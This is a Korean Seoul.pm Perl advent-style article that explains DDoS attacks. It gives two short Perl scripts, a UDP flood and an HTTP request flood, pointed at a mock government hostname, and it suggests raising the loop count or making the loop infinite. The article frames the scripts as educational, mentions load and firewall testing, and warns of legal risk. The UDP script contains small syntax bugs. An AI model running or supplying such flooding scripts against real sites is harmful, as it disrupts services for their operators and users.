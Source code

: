 Title:    DDoS가 무엇인가요?
Package:  Seoul.pm
Category: perl
Category: Seoul.pm
Author:   keedi

저자
-----

[@keedi][twitter-keedi] - Seoul.pm 리더, Perl덕후,
[거침없이 배우는 펄][yes24-4433208]의 공동 역자, keedi.k _at_ gmail.com


시작하며
---------

가끔 특정 사이트가 DDoS 공격으로 인해 서비스 장애가 일어났다는 기사를 접하기도 합니다.
[DDoS][wiki-ddos]는 DoS(서비스 거부 공격, Denial of Service attack)의 기법 중 하나인
분산 서비스 거부 공격(Distributed DoS, DDoS, 디도스)입니다.
여러 시스템을 이용해 공격을 시도하며 다양한 방법을 통해 동시에 공격하는 것으로,
서버의 네트워크 및 전산 자원을 빠르게 고갈시켜 네트워크가 먹통이 되게 만든다거나
원활한 서비스 이용이 불가능하게 만드는 것이 핵심입니다.

![일반인(?)의 흔한 DDoS 공격][img-1-resize]
*그림 1.* 일반인(?)의 흔한 DDoS 공격 ([원본][img-1] / [출처][home-raiseup-ddos])

특별히 취약점을 공략하거나, 침투를 해야하는 것이 아니기 때문에,
공격을 시도할 여러 시스템을 확보하는 것이 관건이지 공격 자체가 기술적으로 어려운 것은 아닙니다.
대표적으로 특정 웹 사이트에 접속한 뒤 브라우저의 갱신 버튼인 `F5`를 지속적으로
연타하는 것 역시 여러 시스템에서 행한다면 일종의 DDoS 공격으로 볼 수 있습니다.
그럼에도 불구하고 효율성의 측면에서 대부분의 공격자들은 간단한 스크립트를 작성해서 공격을 시도하는 것 같습니다.
DDoS라... 이름은 그럴 듯해서 엄청난 것 같지만 과연 이런 스크립트에는 이론적으로 어떤 기법이 들어 있을까요?


준비물
-------

필요한 모듈은 다음과 같습니다.
두 모듈 모두 따로 설치하지 않아도 Perl 5와 같이 배포되는 기본 모듈입니다.

- [CPAN의 Socket 모듈][cpan-socket]
- [CPAN의 IO::Socket 모듈][cpan-io-socket]

직접 [CPAN][cpan]을 이용해서 설치한다면 다음 명령을 이용해서 모듈을 설치합니다.

    #!bash
    $ sudo cpan \
        IO::Socket \
        Socket

사용자 계정으로 모듈을 설치하는 방법을 정확하게 알고 있거나
[perlbrew][home-perlbrew]를 이용해서 자신만의 Perl을 사용하고 있다면
다음 명령을 이용해서 모듈을 설치합니다.

    #!bash
    $ cpan \
        IO::Socket \
        Socket


UDP 범람
---------

UDP 범람(flooding)의 경우 [SYNFlood][wiki-synflood] 등의 기법과는 달리 빠른 시간 내에
네트워크 대역폭을 소모 시키는 것이 목적으로 가장 흔하게 사용하는 DDoS 공격 중 하나일 것입니다.
UDP의 특성상 작고 빠른 요청이 가능하기 때문에 `Socket` 기본 모듈만 사용해도
비교적 간단히 스크립트를 작성할 수 있습니다.

    #!perl
    use utf8;
    use strict;
    use warnings;
    use feature qw( say );

    use Socket;

    my $host = "www.fresident.go.xx";
    my $port = 80;
    my $max = 10;

    my @ips = gethostbyname($host) or die "cannot resolve $host: $!\n";
    @ips = map { inet_ntoa($_) } @ips[4 .. $#ips];
    say for @ips;

    socket( my $sock, PF_INET, SOCK_DGRAM, 17 )
        or die "socket: $!\n";

    my $count = 0;
    while ( $count < $max ) {
        my @chars = ( "0" .. "9", "a" .. "z", "A" .. "Z" );
        my $str = q{};
        $str .= $chars[ int( rand( scalar(@chars) ) ) ] for 1 ..1024;
        $size = int( rand( 1024 - 64 ) ) + 64;

        my $packet = pack "a$size", $str;

        for my $ip (@ips) {
            my $iaddr = inet_aton("$ip")
                or die "cannot resolve ip: $ip\n";
            printf "$count: $ip\n", ++$count;
            send( $sock, $packet, 0, pack_sockaddr_in( $port, $iaddr ) );
        }
    );

간단하죠? 우선 `gethostbyname()` 함수를 이용해 도메인 네임을 IP로 풀이를 합니다.
사이트에 따라 다르겠지만 부하 분산이 되어있는 대부분의 사이트는
여러 서버로 구성되었기 때문에 IP 목록을 확보할 수 있습니다.
이후 `socket()` 함수를 이용해서 UDP 연결용 소켓을 생성합니다.
전송할 자료는 특별히 의미가 없으므로 64 ~ 1024개의 랜덤 문자열을 생성하고
이를 `pack()`을 이용해 적절히 바이너리 형식으로 전환합니다.
이후 IP 주소를 `inet_aton()` 함수를 이용해서 소켓에서 사용할 수 있게 변경하고,
`send()` 함수로 소켓에 랜덤 문자열을 날려버리면 끝입니다.
마지막으로 이런 요청을 몇 번이나 수행할지는 `$max` 변수로 조정하겠죠.


HTTP 범람
----------

HTTP 범람(flooding)은 말그대로 HTTP 프로토콜을 이용해서 요청을 보내는 것입니다.
솔직히 여러번 요청한다는 점을 제외한다면 평범한 HTTP 요청과 다를바 없습니다.
이번에는 `IO::Socket` 모듈을 사용해볼까요?

    #!perl
    use utf8;
    use strict;
    use warnings;

    use IO::Socket;

    my $host = "www.fresident.go.xx:80";
    my $max = 10;

    my $count = 0;
    while ( $count < $max ) {
        my $sock = IO::Socket::INET->new(
            Proto    => "tcp",
            PeerAddr => $host,
        ) or die "cannot bind : $!\n";

        print $sock "GET /?$_ HTTP/1.0\r\n\r\n";

        my $res = <$sock>;
        printf "$count: $res", ++$count;

        close($sock);
    }

HTTP 요청을 도와주는 [CPAN][cpan] 모듈은 무척 많지만,
단순히 첫 페이지 정도 요청해서 응답 코드를 확인하는 것이 전부라면
굳이 [LWP 모듈][cpan-lwp]이나 [HTTP::Tiny 모듈][cpan-http-tiny]까지
쓰지 않고 `Socket` 또는 `IO::Socket` 모듈을 쓰는 것으로도 충분합니다.
특별히 DDoS 공격이 아니더라도, 구축한 시스템의 성능을 파악하거나,
설치한 웹방화벽이 잘 동작하는지 확인하는 용도로도 유용하게 사용할 수 있습니다.
필요하다면 `$max` 값을 충분히 큰 값으로 설정한다던가, 또는 무한 반복문 형태로 바꿀 수도 있겠죠.


정리하며
---------

간단히 DDoS 공격 스크립트 그 자체에 대해서 알아보았습니다.
아무래도 어떻게 공격하는지 알아야 어떤식으로 예방해야 할지에도 도움이 될테구요.
꽤 거창해보였는데 막상 코드를 들여다보니 김빠지죠?
DDoS 요청도 프로토콜 상의 특징을 이용하는 만큼 여러가지 기법이 더 있겠지만
큰 틀에서 봤을때 짧은 시간에 감당할 수 없는 요청을 보내는 것이 핵심이다보니
막상 요청을 보내는 부분 자체는 비교적 간단한 편입니다.
그렇기 때문에 해당 요청이 악의를 가진 것인지 평범한 요청인지 구분하기 어려운 것이 사실이기도 하구요.
DDoS의 경우 요청 자체보다는 어떻게 하면 요청을 보낼 수 있는 네트워크 자원을 확보하냐는 것이 중요하기도 합니다.
물론 DDoS 스크립트도 프로그램이다보니 어떻게하면 더 효율적으로 짧은 시간에 많은 요청을
생성하는지 고민할테고, 이를 위해 쓰레드를 사용한다던가, 티나지 않게 시스템에서 상주하면서
필요할때 동작하게 한다던가 등도 고민할 것 같군요.
브라우저에서 F5를 누르는 행동을 범죄라고 보기는 좀 어려울 것 같으나,
아! 그리고 어찌됐든 DDoS 공격도 어느정도 위법하게 보는 시각이 있으니
이런 류의 스크립트를 함부로 구동하는 것은 법적으로 매우 위험하다는 점 잊지 마세요. :-)

Enjoy Your Perl! ;-)

_EOT_


[img-1]:                    2016-12-02-1.jpg

[img-1-resize]:             2016-12-02-1_r.jpg

[cpan-http-tiny]:           https://metacpan.org/pod/HTTP::Tiny
[cpan-io-socket]:           https://metacpan.org/pod/IO::Socket
[cpan-lwp]:                 https://metacpan.org/pod/LWP
[cpan-socket]:              https://metacpan.org/pod/Socket
[cpan]:                     http://www.cpan.org/
[home-perlbrew]:            http://perlbrew.pl/
[home-raiseup-ddos]:        https://www.facebook.com/raiseup1114/photos/a.953404921396900.1073741827.953396081397784/1297833713620684/?type=3
[twitter-keedi]:            http://twitter.com/#!/keedi
[wiki-ddos]:                https://en.wikipedia.org/wiki/Denial-of-service_attack#DDoS_extortion
[wiki-synflood]:            https://en.wikipedia.org/wiki/SYN_flood
[yes24-4433208]:            http://www.yes24.com/24/goods/4433208
